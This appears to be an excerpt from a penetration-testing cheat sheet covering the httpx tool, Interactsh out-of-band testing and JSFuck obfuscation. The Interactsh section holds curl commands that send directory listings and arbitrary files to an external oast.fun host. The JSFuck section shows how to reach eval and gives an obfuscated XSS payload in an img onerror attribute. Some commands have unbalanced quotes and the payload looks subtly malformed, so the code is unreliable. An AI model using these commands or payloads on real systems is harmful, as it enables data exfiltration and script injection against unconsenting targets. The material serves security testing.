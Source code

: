 ## httpx

> https://github.com/projectdiscovery/httpx

```console
$ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
```

## Interactsh

> https://app.interactsh.com

### Output Redirect into File

```console
$ curl -X POST -d  `ls -la / > output.txt` cdnx6mj2vtc0000m6shggg46ukoyyyyyb.oast.fun'
$ curl -F "out=@output.txt"  cdnx6mj2vtc0000m6shggg46ukoyyyyyb.oast.fun'
$ curl -F "out=@/PATH/TO/FILE/<FILE>.txt"  cdnx6mj2vtc0000m6shggg46ukoyyyyyb.oast.fun'
```

## JavaScript

### JSFuck

> http://www.jsfuck.com/

> https://github.com/aemkei/jsfuck

> https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

```javascript
![]                                          // false
!![]                                         // true
[][[]]                                       // undefined
+[![]]                                       // NaN
+[]                                          // 0
+!+[]                                        // 1
!+[]+!+[]                                    // 2
[]                                           // Array
+[]                                          // Number
[]+[]                                        // String
![]                                          // Boolean
[]["filter"]                                 // Function
[]["filter"]["constructor"]( <CODE> )()      // eval
[]["filter"]["constructor"]("<FOOBAR>")()    // window
```

#### Encoded Payload

```javascript
<img src onerror="(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]) [+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]++[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]">
```
